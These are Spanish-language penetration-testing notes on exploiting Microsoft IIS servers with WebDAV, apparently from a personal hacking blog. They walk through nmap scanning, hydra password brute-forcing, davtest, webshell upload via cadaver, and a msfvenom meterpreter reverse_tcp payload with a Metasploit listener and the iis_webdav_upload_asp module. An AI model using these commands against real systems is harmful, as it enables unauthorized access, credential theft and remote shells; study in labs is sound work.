 ```yaml
---
title: 'Servidores IIS'
description: 'Notas sobre cómo explotarlo'
pubDate: 2024-01-24
author: 'Nicolas Riquelme'
tags: ["Hacking", "Windows", "server", "web", "discover"]
tableOfContents:
  minHeadingLevel: 2
  maxHeadingLevel: 3
---
```

# IIS
IIS (Internet Information Services) es un servidor web propietario de MS Windows. Se puede usar tanto para páginas web como para aplicaciones. 
## WebDAV
Extensión de servidor que convierte el servidor web IIS en un servidor de archivos en red.
# Explotación de vulnerabilidades
Kos programas más usados para vulnerar servidores IIS con WebDAV son davtest y cadaver.
```ruby
nmap -sV -sC {ip víctima} 	# Realizamos un escaneo de los 1000 puertos más importantes, listando las versiones de los servicios detectados y uasndo los scripts de escaneo por defecto.

nmap -sV -p80 --script=http-enum {ip víctima} # Nos dará información más detallada sobre el servidor WebDAV

hydra -L {path a diccionario de nombres de usuario} -P {path a diccionario de contraseñas} {ip víctima} http-get /webdav/
```

## Davtest
```ruby
davtest -url {http://ip víctima}		# Nos indicará si el servidor está activo
davtest -auth {usuario}:{password} -url {http://ip víctima}/webdav		# Realizará un completo test de explotación que abarca los permisos disponibles para el usuario aportado.
```

## Cadaver
```ruby
cadaver {http://ip víctima/webdav} # Nos pedirá que introduzcamos las credenciales y nos abrirá una shell directamente en el servidor webDAV
	put /usr/share/webshells/{webshell}		# La webshell dependerá de las extensiones que permita ejecutar el servidor.
```
Una vez subida la webshell, abrimos el navegador y ejecutamos la webshell desde allá.

## Metasploit
### Opción 1: generando el payload con msfvenom
```ruby
msfvenom -p windows/meterpreter/reverse_tcp LHOST={ip local} LPORT={puerto} -f {formato} > shell.{formato}
```
Una vez generado el payload, lo subimos usando cadaver. Una vez subido, pero antes de ejecutarlo, procedemos a abrir metasploit para configurar la escucha.
```ruby
use multi/handler
	set payload windows/meterpreter/reverse_tcp			# hay que usar el mismo que el usado para generar el payload
	set lhost {ip local}
	set lport {puerto}
	run
```
Ahora que está a la escucha, podemos proceder a ejecutar el payload desde el navegador web, lo cual nos abrirá una shell de meterpreter en la consola en la que estábamos a la escucha.

### Opción 2 (si webdav permite la ejecución de archivos ASP): usando un módulo específico
Podemos hacer lo mismo, pero sin salir de metasploit.
```ruby
use exploit/windows/iis/iis_webdav_upload_asp
	set HttpUsername {usuario}
	set HttpPassword {password}
	set lhost {ip local}
	set lport {puerto}
	set rhost {ip víctima}
	set rport {puerto}
	set path /webdav/{nombre del payload}.asp
	exploit
```
